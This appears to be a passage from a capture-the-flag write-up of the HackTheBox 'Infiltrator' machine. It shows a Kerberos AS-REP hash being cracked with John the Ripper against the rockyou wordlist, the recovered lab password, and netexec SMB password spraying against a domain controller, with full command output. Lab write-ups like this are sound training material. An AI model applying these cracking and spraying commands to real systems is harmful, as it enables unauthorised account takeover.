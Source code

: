 ```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ cat hash_l.clark 
$krb5asrep$23$l.clark@INFILTRATOR.HTB:5720b3adf3c1109d57fe9886dab9d71d$dd6547b5e9d492d740dfb7f910dff7718d9f7e5f1021714d8216b97dfa55686c65e797204ca7abe005d7b7841c05e0d3dab8866eafcd63d7acb22c98955fa35cb8fbf0da656c8400c9b3600753c5ced7c77237af50b409e8080b0ab59209a534506021a4946d017a26d5a4f424730da7ed7f324866541d3c28bca83eeede5bb65b25076b7f2eebb26c0ad8c13b9577c43a00c00fe24093b584ba1c0c55357f2334e03f3b436cb08ed589f7f5fe9037e8f12720e1ac3c2c826c8459db35250b56875043a8cec7f02875aef4903628efbc5050cfd68b4bb8a3d7157ea122757726580a73b9efd33f0ddbd960d94f849dc98ad8
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ sudo john hash_l.clark --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
WAT?watismypass! ($krb5asrep$23$l.clark@INFILTRATOR.HTB)     
1g 0:00:00:11 DONE (2024-08-31 22:03) 0.08920g/s 937037p/s 937037c/s 937037C/s WEBB29..WASHIDA
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Username | Password         |
| -------- | ---------------- |
| l.clark  | WAT?watismypass! |

## Password Spraying

With the newly found `password` we `password sprayed` against port `445/TCP` to see if we could access any interesting shares.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ netexec smb 10.129.223.154 -u usernames.txt -p passwords.txt --shares 
SMB         10.129.223.154  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\david:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\david.anderson:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\d.anderson:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\danderson:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\anderson:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\olivia:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\olivia.martinez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\o.martinez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\omartinez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\martinez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\kevin:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\kevin.turner:WAT?watismypass! STATUS_LOGON_FAILURE 
```